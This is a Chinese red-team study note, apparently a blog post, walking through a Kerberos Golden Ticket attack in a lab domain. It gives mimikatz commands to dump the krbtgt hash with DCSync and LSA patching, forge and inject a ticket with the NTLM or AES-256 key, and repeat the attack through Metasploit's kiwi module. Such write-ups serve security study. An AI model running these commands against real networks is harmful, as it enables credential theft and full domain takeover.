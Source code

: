 ```yaml
---
title: 【内网学习笔记】28、黄金票据
date: 2021-09-27 16:30:36
id: 210927-163036
img: https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202109271559013.png
tags:
- 红队
- 学习笔记
- 内网
categories:
- 内网学习笔记
---
```


## 0、前言

RT 在利用黄金票据（Golden Ticket）进行 PTP 票据传递时，需要先知道以下信息：

* 伪造的域管理员用户名
* 完整的域名
* 域 SID
* krbtgt 的 NTLM Hash 或 AES-256 值

其中 krbtgt 用户是域自带的用户，被 KDC 密钥分发中心服务所使用，属于 Domain Admins 组。

在域环境中，每个用户账号的票据都是由 krbtgt 用户所生成的，因此如果知道了 krbtgt 用户的 NTLM Hash 或者 AES-256 值，就可以伪造域内任意用户的身份了。

## 1、导出 krbtgt 的 NTLM Hash

在 mimikatz 下执行以下命令

```
lsadump::dcsync /domain:teamssix.com /user:krbtgt
```

这里得到 krbtgt 的 NTLM Hash 为 d685b9c4fa2d318a9943ed68948af087

该命令使用的 dcsync 功能远程转储 AD 里的 ntds.dit，使用 /user 参数，可以只导出指定用户的值。



或者使用以下命令获取 krbtgt 的 NTLM Hash ，域 SID 值，但该命令无法获取 AES-256 的值

```
privilege::debug
lsadump::lsa /patch /user:krbtgt
```

## 2、获取基本信息

获取域 SID

```
wmic useraccount get name,sid
```

这里得到 administrator 的 SID 为  S-1-5-21-284927032-1122706408-2778656994-500，即表示当前域的 SID 就是 S-1-5-21-284927032-1122706408-2778656994

获取当前用户的 SID

```
whoami /user
```

查询域管理员账号

```
net group "domain admins" /domain
```

查询域名

```
ipconfig /all
```

## 3、制作黄金票据

先将票据清空

```
kerberos::purge
```

生成票据

```
kerberos::golden /admin:Administrator /domain:teamssix.com /sid:S-1-5-21-284927032-1122706408-2778656994 /krbtgt:d685b9c4fa2d318a9943ed68948af087 /ticket:Administrator.kiribi
```

传递票据并注入内存

```
kerberos::ptt Administrator.kiribi
```

## 4、验证权限

退出 mimikatz ，使用 dir 发现可以成功列出域控文件

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202109271559013.png)

这里使用 PsExec 也同样是能获取到权限的，除了上面使用 NTLM Hash 之外，还可以使用 krbtgt 的 AES-256 值生成黄金票据

```
kerberos::golden /admin:Administrator /domain:teamssix.com /sid:S-1-5-21-284927032-1122706408-2778656994 /aes256:3dfa1f9b5809250a7670c12d1e109f0acb9660f902da8aa3a4be55a16affbbd5 /ticket:Administrator.kiribi
```

命令完成之后，也会生成一个 Administrator.kiribi 文件，之后的操作就都一样了。

## 5、MSF 下的利用

首先上线一个普通用户，然后加载 kiwi 模块

```
load kiwi
```

生成黄金票据

```
golden_ticket_create -d teamssix.com -k d685b9c4fa2d318a9943ed68948af087 -s S-1-5-21-284927032-1122706408-2778656994 -u administrator -t /root/administrator.ticket
```

将黄金票据注入内存

```
kerberos_ticket_use /root/administrator.ticket
```

注入成功后，进入 Shell 就能查看 dc 里的文件了

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202109271628454.png)

> 参考文章：
>
> [https://www.freebuf.com/articles/web/274035.html](https://www.freebuf.com/articles/web/274035.html)
>
> 原文链接：
>
> [https://teamssix.com/210927-163036.html](https://teamssix.com/210927-163036.html)
>
> 更多信息欢迎关注我的微信公众号：TeamsSix

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/TeamsSix_Subscription_Logo2.png)
